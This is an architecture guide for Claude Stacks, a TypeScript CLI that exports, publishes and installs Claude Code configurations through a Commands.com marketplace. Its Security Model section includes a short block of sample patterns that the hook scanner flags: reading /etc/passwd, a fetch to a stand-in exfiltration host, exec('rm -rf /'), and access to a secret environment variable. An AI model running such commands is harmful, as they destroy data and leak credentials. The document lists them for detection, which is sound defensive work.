





# Claude Stacks - System Architecture Guide

## Table of Contents

1. [System Overview](#system-overview)
2. [Core Components](#core-components)
3. [Architecture Patterns](#architecture-patterns)
4. [Directory Structure](#directory-structure)
5. [Data Flow](#data-flow)
6. [Integration Points](#integration-points)
7. [Security Model](#security-model)
8. [Performance Characteristics](#performance-characteristics)
9. [Design Decisions](#design-decisions)
10. [Extension Points](#extension-points)
11. [Component Interaction Diagrams](#component-interaction-diagrams)
12. [Configuration Management](#configuration-management)

---

## System Overview

Claude Stacks is a TypeScript-based CLI tool designed to facilitate the sharing and management of Claude Code development environments. The system follows a modular, service-oriented architecture that prioritizes type safety, testability, and maintainability.

### Mission Statement

Enable developers to export, share, and restore their Claude Code configurations, commands, agents, and MCP servers as portable "stacks" through a comprehensive marketplace ecosystem.

### Key Capabilities

- **Environment Export/Import**: Serialize Claude Code configurations into portable stack files
- **Marketplace Integration**: Publish and discover stacks through Commands.com marketplace
- **OAuth Authentication**: Secure authentication with Commands.com backend
- **Configuration Management**: Support for both global (~/.claude) and local project configurations
- **Hook System**: Security scanning and execution of user-defined hooks
- **Dependency Management**: Automatic dependency resolution and installation

---

## Core Components

### CLI Layer (`src/cli.ts`)

The entry point that defines the command structure using Commander.js. Follows a clean separation between command parsing and business logic execution.

**Key Features:**

- Command registration with options and arguments
- Consistent help text and usage patterns
- Version management from package.json
- Graceful error handling and user feedback

**Commands Supported:**

- `export` - Export current environment to stack file
- `restore` - Import stack from file to current project
- `publish` - Publish stack to Commands.com marketplace
- `browse` - Discover and browse published stacks
- `install` - Install remote stack from marketplace
- `list` - Manage local stacks
- `delete` - Remove published stacks
- `rename` - Update published stack metadata
- `uninstall` - Remove installed stacks
- `clean` - Cleanup orphaned project entries
- Hook commands: `view-hook`, `scan-hooks`, `list-hooks`

### Action Layer (`src/actions/`)

Business logic implementations for each CLI command. Each action is a focused module that handles a specific user workflow.

**Architecture Pattern:**

```typescript
// BaseAction provides common functionality
export abstract class BaseAction {
  protected readonly services: ActionServices;

  constructor() {
    this.services = this.initializeServices();
  }
}

// Individual actions extend BaseAction
export class ExportAction extends BaseAction {
  async execute(options: ExportOptions): Promise<void> {
    // Implementation
  }
}
```

**Key Actions:**

- **ExportAction**: Scans Claude configurations and serializes to stack format
- **RestoreAction**: Applies stack configurations to current project
- **PublishAction**: Handles OAuth flow and marketplace publishing
- **InstallAction**: Downloads and applies remote stacks
- **BrowseAction**: Interactive marketplace browsing with filtering

### Service Layer (`src/services/`)

Core business services that provide reusable functionality across actions. Services follow dependency injection patterns for testability.

#### ConfigService

Manages Claude Code configuration files (claude_desktop_config.json, .clauderc).

**Responsibilities:**

- Read/write global and local Claude configurations
- Merge configuration hierarchies (global → local → stack)
- Validate configuration schemas
- Handle configuration backups during stack operations

#### FileService

Provides secure file system operations with path validation.

**Responsibilities:**

- Safe file read/write operations with path traversal prevention
- Directory creation and cleanup
- File existence checks and metadata retrieval
- Backup and restore operations

#### StackService

Core stack management operations including CRUD operations for local stacks.

**Responsibilities:**

- Stack creation, reading, updating, deletion
- Stack validation against schema
- Version management and metadata tracking
- Local stack registry management

#### AuthService

OAuth 2.0 with PKCE flow implementation for Commands.com authentication.

**Responsibilities:**

- OAuth token acquisition and refresh
- Secure token storage in ~/.claude-stacks-auth.json
- Token validation and expiration handling
- PKCE challenge/verifier generation

#### ApiService

HTTP client for Commands.com marketplace API.

**Responsibilities:**

- Authenticated API requests to marketplace
- Request/response serialization
- Error handling and retry logic
- Environment-based endpoint configuration (dev/prod)

#### HookScannerService

Security analysis for user-defined hooks to identify potential risks.

**Responsibilities:**

- Static analysis of JavaScript/TypeScript hook code
- Pattern matching for dangerous operations (file system, network, process execution)
- Risk scoring and classification (safe/warning/dangerous)
- Detailed security reports with recommendations

### Controller Layer (`src/controllers/`)

Orchestrates service interactions and provides consistent error handling patterns.

#### StackController

Primary controller for stack management operations with comprehensive error handling.

**Features:**

- Service orchestration for complex workflows
- Standardized error handling with user-friendly messages
- Progress reporting and user feedback
- Test environment detection for different exit strategies

### Utility Layer (`src/utils/`)

Cross-cutting concerns and helper functions used throughout the system.

**Key Utilities:**

- **colors.ts**: Consistent terminal color scheme using chalk
- **auth.ts**: Authentication helpers and token management
- **api.ts**: API configuration management (dev/prod endpoints)
- **validators.ts**: Input validation and sanitization
- **metadata.ts**: Stack metadata manipulation
- **pathSecurity.ts**: Path traversal attack prevention
- **secureHttp.ts**: Secure HTTP client configuration

### Type System (`src/types/`)

Comprehensive TypeScript type definitions ensuring type safety across the application.

**Type Categories:**

- **CLI Types**: Command options and argument interfaces
- **Stack Types**: Stack schema and component definitions
- **API Types**: Request/response schemas for marketplace API
- **Error Types**: Structured error definitions with error codes
- **Utility Types**: Branded types, validators, and generic utilities

---

## Architecture Patterns

### Command Pattern

Each CLI command is implemented as a separate action class, enabling:

- Clear separation of concerns
- Easy addition of new commands
- Consistent parameter handling
- Independent testing of command logic

### Repository Pattern

Data persistence abstracted through service interfaces:

- **FileService**: File system operations
- **ConfigService**: Configuration management
- **StackService**: Stack data access
- **AuthService**: Authentication token storage

### Strategy Pattern

Environment and context-specific behaviors:

- **API Configuration**: Dev/prod endpoint selection
- **Authentication Flows**: OAuth vs. test token handling
- **Installation Strategies**: Global vs. local vs. merge modes

### Observer Pattern

Event-driven patterns for user feedback:

- Progress indicators during long operations
- Real-time feedback during installation/export
- Error notifications with contextual help

### Dependency Injection

Services receive dependencies as constructor parameters:

- Enables comprehensive unit testing
- Supports different implementations (real vs. mock)
- Clear dependency graphs
- Easy extension with new functionality

---

## Directory Structure

```
claude-stacks/
├── src/
│   ├── cli.ts                    # CLI entry point and command definitions
│   ├── actions/                  # Business logic for each command
│   │   ├── BaseAction.ts         # Base class with common functionality
│   │   ├── export.ts             # Export stack from current environment
│   │   ├── restore.ts            # Restore stack to current environment
│   │   ├── publish.ts            # Publish stack to marketplace
│   │   ├── install.ts            # Install stack from marketplace
│   │   ├── browse.ts             # Browse marketplace
│   │   ├── list.ts               # List local stacks
│   │   ├── delete.ts             # Delete published stacks
│   │   ├── rename.ts             # Rename published stacks
│   │   ├── uninstall.ts          # Uninstall installed stacks
│   │   ├── clean.ts              # Clean orphaned entries
│   │   └── hooks.ts              # Hook management commands
│   ├── services/                 # Core business services
│   │   ├── index.ts              # Service exports
│   │   ├── ConfigService.ts      # Claude configuration management
│   │   ├── FileService.ts        # File system operations
│   │   ├── StackService.ts       # Stack CRUD operations
│   │   ├── AuthService.ts        # OAuth authentication
│   │   ├── ApiService.ts         # Marketplace API client
│   │   ├── UIService.ts          # User interface utilities
│   │   ├── MetadataService.ts    # Stack metadata management
│   │   ├── DependencyService.ts  # Dependency resolution
│   │   ├── StackRegistryService.ts # Local stack registry
│   │   ├── StackOperationService.ts # Stack operations orchestration
│   │   ├── NavigationService.ts  # UI navigation utilities
│   │   └── HookScannerService.ts # Hook security analysis
│   ├── controllers/              # Request orchestration
│   │   └── StackController.ts    # Primary stack controller
│   ├── types/                    # TypeScript type definitions
│   │   ├── index.ts              # Main type exports
│   │   ├── cli.ts                # CLI command types
│   │   ├── stack.ts              # Stack schema types
│   │   ├── api.ts                # API request/response types
│   │   ├── errors.ts             # Error type definitions
│   │   ├── utilities.ts          # Utility and branded types
│   │   └── runtime-validators.ts # Runtime validation functions
│   ├── utils/                    # Cross-cutting utilities
│   │   ├── colors.ts             # Terminal color scheme
│   │   ├── auth.ts               # Authentication helpers
│   │   ├── api.ts                # API configuration
│   │   ├── validators.ts         # Input validation
│   │   ├── metadata.ts           # Stack metadata utilities
│   │   ├── pathSecurity.ts       # Path security validation
│   │   ├── secureHttp.ts         # Secure HTTP client
│   │   ├── sanitize.ts           # Input sanitization
│   │   ├── input.ts              # User input utilities
│   │   ├── dependencies.ts       # Dependency management
│   │   ├── version.ts            # Version handling
│   │   └── testHelpers.ts        # Testing utilities
│   ├── constants/                # Application constants
│   │   └── paths.ts              # File path constants
│   ├── config/                   # Configuration files
│   │   └── dependency-mappings.json # Dependency resolution rules
│   └── ui/                       # User interface components
│       ├── display.ts            # Display formatting
│       └── menus.ts              # Interactive menus
├── tests/                        # Comprehensive test suite
│   ├── unit/                     # Unit tests
│   ├── integration/              # Integration tests
│   ├── e2e/                      # End-to-end tests
│   └── performance/              # Performance tests
├── docs/                         # Documentation
├── .claude/                      # Claude configuration
├── .github/                      # GitHub workflows and templates
└── .husky/                       # Git hooks
```

---

## Data Flow

### Export Workflow



### Install Workflow



### OAuth Authentication Flow



---

## Integration Points

### Claude Code Integration

**Configuration Files:**

- `~/.claude/claude_desktop_config.json` - Global Claude configuration
- `./.claude/claude_desktop_config.json` - Local project configuration

**MCP Server Integration:**

- Server definitions with command, args, environment variables
- Support for stdio, HTTP, and SSE transport types
- Automatic dependency resolution and installation

**Command Integration:**

- Claude Code command definitions stored as separate files
- Metadata preservation (name, description, file path)
- Support for both TypeScript and JavaScript commands

**Agent Integration:**

- Custom agent definitions with prompts and configurations
- Agent-specific settings and behavior customization
- Version tracking and update management

### Commands.com Marketplace

**API Endpoints:**

- `GET /api/stacks` - Browse published stacks
- `POST /api/stacks` - Publish new stack
- `GET /api/stacks/:org/:name` - Fetch specific stack
- `PUT /api/stacks/:id` - Update stack metadata
- `DELETE /api/stacks/:id` - Delete published stack

**Authentication:**

- OAuth 2.0 with PKCE flow
- JWT token-based API authentication
- Refresh token handling for long-term sessions

**Data Synchronization:**

- Metadata syncing between local and remote stacks
- Version conflict resolution
- Installation tracking for analytics

### File System Integration

**Security Measures:**

- Path traversal attack prevention
- Symlink validation
- Permission checking before file operations
- Sandboxed execution for hooks

**Backup Strategy:**

- Automatic configuration backups before modifications
- Rollback capability for failed installations
- Metadata preservation during operations

---

## Security Model

### Authentication Security

**OAuth Implementation:**

- PKCE (Proof Key for Code Exchange) for public client security
- Secure token storage with appropriate file permissions
- Token encryption in transit and at rest
- Automatic token refresh with error handling

**Token Management:**

- Tokens stored in `~/.claude-stacks-auth.json` with 600 permissions
- Token expiration validation before API calls
- Secure token cleanup on logout
- No tokens in environment variables or command line args

### Hook Security System

**Static Analysis:**

- JavaScript/TypeScript code parsing for dangerous patterns
- File system access detection (fs, path modules)
- Network access detection (http, fetch, axios)
- Process execution detection (child_process, spawn)
- Credential access detection (environment variable access)

**Risk Classification:**

- **Safe**: No detected security risks
- **Warning**: Moderate risk patterns detected
- **Dangerous**: High-risk operations detected

**Security Patterns Detected:**

```typescript
// File system access
import fs from 'fs';
fs.readFileSync('/etc/passwd');

// Network access
import fetch from 'node-fetch';
fetch('https://malicious-site.com/exfiltrate');

// Process execution
import { exec } from 'child_process';
exec('rm -rf /');

// Credential access
process.env.SECRET_API_KEY;
```

### Input Validation

**Path Security:**

- Absolute path validation
- Directory traversal prevention (../, ..\, %2e%2e%2f)
- Symlink resolution and validation
- Whitelist-based path access control

**Data Sanitization:**

- Stack name validation (alphanumeric, hyphens, underscores)
- Version string validation (semver format)
- Description length limits and HTML stripping
- Command/agent name validation

### API Security

**Request Security:**

- HTTPS enforcement for all API communications
- Request timeout limits to prevent DoS
- Rate limiting respect (exponential backoff)
- User-Agent identification for request tracking

**Data Validation:**

- Schema validation for all API requests/responses
- Type checking at runtime with branded types
- Sanitization of user-provided data before API calls
- Error message sanitization (no sensitive data exposure)

---

## Performance Characteristics

### CLI Performance

**Startup Time:**

- Cold start: ~200ms (module loading, TypeScript compilation)
- Warm start: ~50ms (cached modules)
- Command execution: <100ms for local operations

**Memory Usage:**

- Base CLI: ~25MB RAM
- With large stack operations: ~50-100MB RAM
- Streaming for large file operations to minimize memory usage

**File Operations:**

- Parallel processing for bulk file operations
- Progress indicators for operations >1 second
- Efficient directory traversal with configurable depth limits

### Network Performance

**API Optimization:**

- Connection pooling for multiple API calls
- Gzip compression for request/response bodies
- Intelligent caching of marketplace data
- Exponential backoff for retry logic

**Large Stack Handling:**

- Streaming upload/download for large stacks (>10MB)
- Chunked processing to avoid memory exhaustion
- Progress reporting for long-running network operations

### Caching Strategy

**Metadata Caching:**

- Local stack metadata cached in memory during operations
- Marketplace browse results cached for 5 minutes
- Authentication token caching until expiration

**File System Caching:**

- Configuration file parsing cached per process
- Directory scan results cached for duplicate operations
- Hook analysis results cached by content hash

---

## Design Decisions

### TypeScript Configuration

**Target Environment:**

- ES2020 target for modern Node.js features
- ESM modules for future-compatibility and better tree-shaking
- Strict TypeScript configuration with comprehensive type checking

**Module System:**

- ESM imports/exports throughout
- .js extensions in import statements for ESM compatibility
- Dynamic imports for optional dependencies

### Error Handling Strategy

**Structured Errors:**

```typescript
export class StackError extends Error {
  constructor(
    message: string,
    public readonly code: StackErrorCode,
    public readonly details?: unknown
  ) {
    super(message);
    this.name = 'StackError';
  }
}
```

**Error Categories:**

- `STACK_NOT_FOUND`: Missing stack file or directory
- `STACK_ALREADY_EXISTS`: Duplicate stack creation
- `VALIDATION_ERROR`: Invalid input or schema violation
- `FILESYSTEM_ERROR`: File system operation failure
- `NETWORK_ERROR`: API communication failure
- `AUTH_ERROR`: Authentication failure

**Recovery Strategies:**

- Automatic retry with exponential backoff for transient errors
- Graceful degradation for non-critical failures
- User-friendly error messages with actionable suggestions
- Comprehensive logging for debugging

### Testing Architecture

**Test Categories:**

- **Unit Tests**: Individual function and class testing
- **Integration Tests**: Service interaction testing
- **End-to-End Tests**: Full workflow testing
- **Performance Tests**: Load and stress testing

**Coverage Requirements:**

- Statements: >95%
- Branches: >90%
- Functions: >95%
- Lines: >95%

**Mock Strategy:**

- Service layer mocking for unit tests
- File system mocking with memfs
- Network mocking with nock/msw
- Authentication mocking for test workflows

### Configuration Management

**Configuration Hierarchy:**

1. Default values (in code)
2. Global configuration (`~/.claude/`)
3. Local project configuration (`./.claude/`)
4. Stack configuration (imported/installed)
5. Command-line options (highest priority)

**Configuration Merging:**

- Deep merge for nested objects
- Array concatenation for lists
- String replacement for scalar values
- Validation after each merge step

---

## Extension Points

### Adding New Commands

1. **Create Action Class:**

```typescript
export class NewAction extends BaseAction {
  async execute(options: NewOptions): Promise<void> {
    // Implementation
  }
}
```

2. **Register in CLI:**

```typescript
program
  .command('new-command')
  .description('Description of new command')
  .action(options => newAction(options));
```

3. **Add Types:**

```typescript
export interface NewOptions {
  // Option definitions
}
```

### Adding New Services

1. **Create Service Class:**

```typescript
export class NewService {
  constructor(
    private readonly fileService: FileService,
    private readonly configService: ConfigService
  ) {}

  async newOperation(): Promise<Result<Data, Error>> {
    // Implementation
  }
}
```

2. **Add to Service Index:**

```typescript
export { NewService } from './NewService.js';
```

3. **Update BaseAction:**

```typescript
protected initializeServices(): ActionServices {
  return {
    // ... existing services
    newService: new NewService(fileService, configService)
  };
}
```

### Adding New Stack Components

1. **Extend Stack Type:**

```typescript
export interface StackComponent {
  name: string;
  type: string;
  data: unknown;
}

export interface DeveloperStack {
  // ... existing properties
  components?: StackComponent[];
}
```

2. **Add Component Handler:**

```typescript
export class ComponentService {
  async processComponent(component: StackComponent): Promise<void> {
    // Implementation
  }
}
```

### Custom Hook Types

1. **Add Hook Type:**

```typescript
export type HookType = 'PreToolUse' | 'PostToolUse' | 'CustomHookType'; // Add new type
```

2. **Update Hook Scanner:**

```typescript
export class HookScannerService {
  private readonly hookHandlers = {
    CustomHookType: this.handleCustomHook.bind(this),
  };
}
```

### Marketplace Integration Extensions

**Custom API Endpoints:**

```typescript
export class ApiService {
  async customEndpoint(params: CustomParams): Promise<CustomResponse> {
    return this.request('POST', '/api/custom', params);
  }
}
```

**Custom Authentication Providers:**

```typescript
export interface AuthProvider {
  authenticate(): Promise<AuthToken>;
  refresh(token: AuthToken): Promise<AuthToken>;
}
```

---

## Component Interaction Diagrams

### Service Dependencies



### Stack Operation Flow



---

## Configuration Management

### Configuration File Hierarchy

The system manages configuration through a hierarchical approach:

```
Priority (Highest → Lowest):
1. Command-line arguments
2. Environment variables
3. Local project config (./.claude/)
4. Global user config (~/.claude/)
5. Default values (hardcoded)
```

### Configuration Merging Strategy

```typescript
interface ConfigMergeStrategy {
  objects: 'deep-merge'; // Recursive merge of nested objects
  arrays: 'concatenate'; // Append arrays from higher priority configs
  primitives: 'override'; // Replace primitive values completely
  validation: 'post-merge'; // Validate final merged configuration
}
```

### Configuration Schema Validation

```typescript
// Runtime configuration validation
export const configSchema = {
  mcpServers: {
    type: 'object',
    properties: {
      [key: string]: {
        command: { type: 'string', required: true },
        args: { type: 'array', items: { type: 'string' } },
        env: { type: 'object' }
      }
    }
  },
  commands: {
    type: 'array',
    items: {
      name: { type: 'string', required: true },
      description: { type: 'string' },
      filePath: { type: 'string', required: true }
    }
  }
};
```

### Environment-Specific Configuration

```typescript
// Development vs Production configuration
export const getApiBaseUrl = (): string => {
  if (process.env.CLAUDE_STACKS_DEV === 'true') {
    return 'http://localhost:3000';
  }
  return 'https://backend.commands.com';
};

// Test environment detection
export const isTestEnvironment = (): boolean => {
  return process.env.NODE_ENV === 'test' || process.env.JEST_WORKER_ID !== undefined;
};
```

This comprehensive architecture provides a solid foundation for the Claude Stacks ecosystem while maintaining flexibility for future enhancements and extensions.
